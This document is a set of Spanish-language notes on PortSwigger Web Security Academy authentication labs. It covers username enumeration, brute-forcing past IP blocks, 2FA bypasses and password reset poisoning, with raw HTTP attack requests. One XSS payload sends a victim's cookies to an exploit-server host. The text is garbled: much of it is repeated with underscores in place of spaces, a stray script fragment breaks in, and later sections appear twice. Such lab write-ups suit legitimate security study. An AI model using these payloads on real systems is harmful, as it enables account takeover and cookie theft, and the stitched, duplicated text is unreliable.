

## Lab: Username enumeration via different responses

Username valido: `Incorrect Password`
NO valido: `Invalid Username`

## Lab: Username enumeration via subtly different responses

Username valido: `Invalid username or password`
NO valido: `Invalid username of password.`

La diferencia es el `.`

## Lab: Username enumeration via response timing

Intruder con el header `X-Forwarded-For` para ir cambiando la IP
Cuando el username es valido, se tarda un poco más en responder debido a que valida la contraseña. Para forzar a que cuando sea valido se tarde más enviar una contraseña `muy larga`

## Lab: Broken brute-force protection, IP block

Se bloquea la IP luego de ciertos intentos, para desbloquearla es necesario iniciar sesión con usuario valido. 

Para que el ataque de fuerza bruta funcione en esta ocación, se debe, enviar una worlist con: 

| username.txt      | password.txt         |
| ----------------- | -------------------- |
| usuario valido    | contrasñea valida    |
| usuario de prueba | contraseña de prueba |
| usuario valido    | contrasñea valida    |
| usuario de prueba | contraseña de prueba |
| usuario valido    | contrasñea valida    |
| usuario de prueba | contraseña de prueba |
## Lab: Username enumeration via account lock

Si era un usuario valido luego de tres intentos bloqueaba el usuario, si no era valido no bloqueaba el usuario. 
Para identificar la contraseña se enviar un ataque de fuerza bruta, y cuando era valida no salía ningún mensaje de error. 

## Lab: 2FA simple bypass

Cuando se inicia sesión se entrega un token de autenticación, sin validar primero el security code. Lo que permite que si el atacante conoce algun endpoint. Puede simplemente hacer la petición y acceder a este. 
Esto ya que tiene un token de autenticación. 

## Lab: 2FA broken logic

Cuando el usuario completa el primer paso del login, es decir cuando pone su usuario y contraseña, el sitio no verifica que la misma persona complete el siguiente paso. Ya que se basa únicamente en el valor de la `cookie=nombredeusuario`. Y esta puede ser modifica por cualquier nombre de usuario. Por lo que el atacante puede intentar adivinar el código de seguridad y iniciar sesión con cualquier usuario sin necesidad de su contraseña. 

```
POST /login2 HTTP/2
Host: 0a9e00160388a2fd82ad3ded00a500f6.web-security-academy.net
Cookie: verify=<otroUsuario>; session=Qr1DgvpCRNnZJKsIVhx8DCFRspMUtx1N
Content-Length: 15

mfa-code=$1111$
```


## Lab: Brute-forcing a stay-logged-in cookie

Cuando se maneja la característica de mantener sesión iniciada, y esta implementada mediante una cookie persistente. Si esta cookie no es lo suficientemente random, un atacante puede adivinar dicha cookie para un usuario distinto. 

## Lab: Offline password cracking

Explotando el XSS para robar las cookies: 
```html
<script>document.location='https://exploit-0a0500c504949ac480c8026a01c900c8.exploit-server.net/exploit/?'+document.cookie</script>
```

Recibiendo las cookies y desencriptando en MD5: 
![Pasted image 20251004173500.png](img/
________##_Lab:_Username_enumeration_via_different_responses

Username_valido:_`Incorrect_Password`
NO_valido:_`Invalid_Username`

##_Lab:_Username_enumeration_via_subtly_different_responses

Username_valido:_`Invalid_username_or_password`
NO_valido:_`Invalid_username_of_password.`

La_diferencia_es_el_`.`

##_Lab:_Username_enumeration_via_response_timing

Intruder_con_el_header_`X-Forwarded-For`_para_ir_cambiando_la_IP
Cuando_el_username_es_valido,_se_tarda_un_poco_más_en_responder_debido_a_que_valida_la_contraseña._Para_forzar_a_que_cuando_sea_valido_se_tarde_más_enviar_una_contraseña_`muy_larga`

##_Lab:_Broken_brute-force_protection,_IP_block

Se_bloquea_la_IP_luego_de_ciertos_intentos,_para_desbloquearla_es_necesario_iniciar_sesión_con_usuario_valido._

Para_que_el_ataque_de_fuerza_bruta_funcione_en_esta_ocación,_se_debe,_enviar_una_worlist_con:_

|_username.txt______|_password.txt_________|
|_-----------------_|_--------------------_|
|_usuario_valido____|_contrasñea_valida____|
|_usuario_de_prueba_|_contraseña_de_prueba_|
|_usuario_valido____|_contrasñea_valida____|
|_usuario_de_prueba_|_contraseña_de_prueba_|
|_usuario_valido____|_contrasñea_valida____|
|_usuario_de_prueba_|_contraseña_de_prueba_|
##_Lab:_Username_enumeration_via_account_lock

Si_era_un_usuario_valido_luego_de_tres_intentos_bloqueaba_el_usuario,_si_no_era_valido_no_bloqueaba_el_usuario._
Para_identificar_la_contraseña_se_enviar_un_ataque_de_fuerza_bruta,_y_cuando_era_valida_no_salía_ningún_mensaje_de_error._

##_Lab:_2FA_simple_bypass

Cuando_se_inicia_sesión_se_entrega_un_token_de_autenticación,_sin_validar_primero_el_security_code._Lo_que_permite_que_si_el_atacante_conoce_algun_endpoint._Puede_simplemente_hacer_la_petición_y_acceder_a_este._
Esto_ya_que_tiene_un_token_de_autenticación._

##_Lab:_2FA_broken_logic

Cuando_el_usuario_completa_el_primer_paso_del_login,_es_decir_cuando_pone_su_usuario_y_contraseña,_el_sitio_no_verifica_que_la_misma_persona_complete_el_siguiente_paso._Ya_que_se_basa_únicamente_en_el_valor_de_la_`cookie=nombredeusuario`._Y_esta_puede_ser_modifica_por_cualquier_nombre_de_usuario._Por_lo_que_el_atacante_puede_intentar_adivinar_el_código_de_seguridad_y_iniciar_sesión_con_cualquier_usuario_sin_necesidad_de_su_contraseña._

```
POST_/login2_HTTP/2
Host:_0a9e00160388a2fd82ad3ded00a500f6.web-security-academy.net
Cookie:_verify=<otroUsuario>;_session=Qr1DgvpCRNnZJKsIVhx8DCFRspMUtx1N
Content-Length:_15

mfa-code=$1111$
```


##_Lab:_Brute-forcing_a_stay-logged-in_cookie

Cuando_se_maneja_la_característica_de_mantener_sesión_iniciada,_y_esta_implementada_mediante_una_cookie_persistente._Si_esta_cookie_no_es_lo_suficientemente_random,_un_atacante_puede_adivinar_dicha_cookie_para_un_usuario_distinto._

##_Lab:_Offline_password_cracking

Explotando_el_XSS_para_robar_las_cookies:_
```html
<script>document.location='https://exploit-0a0500c504949ac480c8026a01c900c8.exploit-server.net/exploit/?'+document.cookie</script>
```

Recibiendo_las_cookies_y_desencriptando_en_MD5:_



## Lab: Password reset broken logic

Request legitima: 
```
POST /forgot-password?temp-forgot-password-token=yffr630va5tx56phha58n1sdsw7hzizz HTTP/2
Host: 0aaf00c9030443f3ed4b35b800ef00a2.web-security-academy.net
Cookie: session=1kk7HD6jqjDGhDIOkau3XLMJ5gmhqCcB

temp-forgot-password-token=yffr630va5tx56phha58n1sdsw7hzizz&username=wiener&new-password-1=prueba&new-password-2=prueba
```

Modifico el nombre de usuario y borro el token: 
```
POST /forgot-password?temp-forgot-password-token=yffr630va5tx56phha58n1sdsw7hzizz HTTP/2
Host: 0aaf00c9030443f3ed4b35b800ef00a2.web-security-academy.net
Cookie: session=1kk7HD6jqjDGhDIOkau3XLMJ5gmhqCcB

temp-forgot-password-token=&username=carlos&new-password-1=prueba&new-password-2=prueba
```

## Lab: Password reset poisoning via middleware

Enviamos una request poniendo nuestro host maliciosos en el header `X-Forwarded-Host`
```
POST /forgot-password HTTP/2
Host: 0a5a004803450fda808ae9df0062001d.web-security-academy.net
X-Forwarded-Host: exploit-0a8c004703160ffe8026e856018000c4.exploit-server.net/exploit
Cookie: session=0O90JCjWJzXbiaMWdqJDOVyqc6eH5mYf

username=carlos
```

Y enviamos el link malicioso a la victima.

## Lab: Password brute-force via password change

```
POST /my-account/change-password HTTP/2
Host: 0a7d004403dd410c826c600a009a002d.web-security-academy.net
Cookie: session=iWc3YnJMYnpH0nyqoCvWvpUNMEIF0vXP

username=carlos&current-password=$test$&new-password-1=asdfasdfasdf&new-password-2=asdfasdfa
```

Enviamos el request con dos contraseñas nuevas que no sean iguales para poder filtrar el mensaje de que no coinciden ya que cuando esto pase significa que la `current-password` si es correcta.  -replace " ", "_"
    )


## Lab: Password reset broken logic

Request legitima: 
```
POST /forgot-password?temp-forgot-password-token=yffr630va5tx56phha58n1sdsw7hzizz HTTP/2
Host: 0aaf00c9030443f3ed4b35b800ef00a2.web-security-academy.net
Cookie: session=1kk7HD6jqjDGhDIOkau3XLMJ5gmhqCcB

temp-forgot-password-token=yffr630va5tx56phha58n1sdsw7hzizz&username=wiener&new-password-1=prueba&new-password-2=prueba
```

Modifico el nombre de usuario y borro el token: 
```
POST /forgot-password?temp-forgot-password-token=yffr630va5tx56phha58n1sdsw7hzizz HTTP/2
Host: 0aaf00c9030443f3ed4b35b800ef00a2.web-security-academy.net
Cookie: session=1kk7HD6jqjDGhDIOkau3XLMJ5gmhqCcB

temp-forgot-password-token=&username=carlos&new-password-1=prueba&new-password-2=prueba
```

## Lab: Password reset poisoning via middleware

Enviamos una request poniendo nuestro host maliciosos en el header `X-Forwarded-Host`
```
POST /forgot-password HTTP/2
Host: 0a5a004803450fda808ae9df0062001d.web-security-academy.net
X-Forwarded-Host: exploit-0a8c004703160ffe8026e856018000c4.exploit-server.net/exploit
Cookie: session=0O90JCjWJzXbiaMWdqJDOVyqc6eH5mYf

username=carlos
```

Y enviamos el link malicioso a la victima.

## Lab: Password brute-force via password change

```
POST /my-account/change-password HTTP/2
Host: 0a7d004403dd410c826c600a009a002d.web-security-academy.net
Cookie: session=iWc3YnJMYnpH0nyqoCvWvpUNMEIF0vXP

username=carlos&current-password=$test$&new-password-1=asdfasdfasdf&new-password-2=asdfasdfa
```

Enviamos el request con dos contraseñas nuevas que no sean iguales para poder filtrar el mensaje de que no coinciden ya que cuando esto pase significa que la `current-password` si es correcta. 

